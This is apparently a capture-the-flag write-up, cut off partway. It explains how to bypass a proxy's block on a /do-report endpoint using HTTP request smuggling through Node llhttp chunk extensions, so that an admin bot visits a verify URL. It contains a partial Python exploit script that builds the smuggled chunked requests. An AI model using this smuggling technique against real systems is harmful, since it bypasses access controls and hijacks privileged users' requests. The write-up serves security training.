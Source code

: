 ### Report Issue

`Purpose of this endpoint: Get the admin to visit a supplied URL`

We can make use of this endpoint to get the admin to visit the /verify endpoint with our token.

Due to the *authenticationMiddleware*, the admin would possess its own token when visiting any of the endpoints: 

<img src="Screenshots/2022-09-20-18-23-50-image.png" title="" alt="" width="269">

However, due to the *remap.config* file, any attempt to access the /do-report endpoint will result in a redirection to the /forbidden endpoint, rendering a 403 Forbidden Error.

<img src="Screenshots/2022-09-20-17-54-01-image.png" title="" alt="" width="536">

In order to bypass this restriction, we need to employ [HTTP Smuggling](https://hackerone.com/reports/1238099). This exploit involves utilising chunk extensions that are ignored by the *llhttp* parser in Node's *HTTP* module. 

I first calculated the chunk extension length (0x42), which will be incorporated later in the exploit.py script:

![](Screenshots/2022-09-20-18-46-55-image.png)

`NOTE: the trailing \r\n in the url are not counted in the chunk length`

I also made some changes to the provided POC from link above and came up with the exploit script.

<u>Exploit.py</u>

```python
import sys

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Content-Type: application/json\r\n" +
    b"Cookie: connect.sid=s%3A0_BrP66Wh55vai4ZMx1go_oPo2pUI8XD.fVIOJUGfiLRA%2BrgXEabvjgwPuCwBCBYTDRnO2UkXAlE\r\n" + # Change everytime there is a new login
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    b"42\r\n" + # Chunk extension length in hex
    b"{\"url\":\"http://localhost/verify?=token=TISC{3:h:3:8:7:7:4:0:4:l}\"}\r\n" + #Input the provided token
    b"0\r\n" +
    b"\r\n"
)

def h(n):
    return hex(n)[2:].encode()

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /index HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Cookie: connect.sid=s%3A0_BrP66Wh55vai4ZMx1go_oPo2pUI8XD.fVIOJUGfiLRA%2BrgXEabvjgwPuCwBCBYTDRnO2UkXAlE\r\n" +
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
```